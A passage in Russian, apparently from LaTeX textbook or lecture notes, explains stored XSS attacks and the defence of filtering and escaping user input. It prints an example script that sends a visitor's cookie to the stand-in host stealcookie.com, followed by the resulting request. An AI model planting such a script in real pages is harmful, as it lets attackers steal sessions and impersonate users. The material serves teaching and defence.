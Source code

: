 Пусть текстовое сообщение, размещённое пользователем, содержит скрипт, помещающий на странице <<изображение>>, расположенное по некоему адресу
\begin{verbatim}
<script>
  new Image().src = "http://stealcookie.com?c=" +
    encodeURI(document.cookie);
</script>
\end{verbatim}

Тогда браузеры всех пользователей, которым показывается сообщение, при загрузке страницы отправят HTTP GET-запрос на получение файла <<изображения>> по адресу
\begin{center} \begin{verbatim}
http://stealcookie.com?auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

В результате злоумышленник получит cookie, используя который он сможет заходить на веб-сайт под видом пользователя.

Вставка гиперссылок является наиболее частой XSS-атакой. Иногда ссылки кодируются шестнадцатеричными числами вида \texttt{\%NN}, чтобы не вызывать сомнения у пользователя текстом ссылки.



На 2009 г. 80\% обнаруженных уязвимостей веб-сайтов являются XSS-уязвимостями.

Стандартный способ защиты от XSS-атак заключается в фильтрации, замене, экранировании символов и слов введённого пользователем текста: \texttt{<}, \texttt{>}, \texttt{/}, \texttt{\textbackslash}, \texttt{"}, \texttt{'}, \texttt{(}, \texttt{)}, \texttt{script}, \texttt{javascript} и~др., а также в обработке кодировок символов.
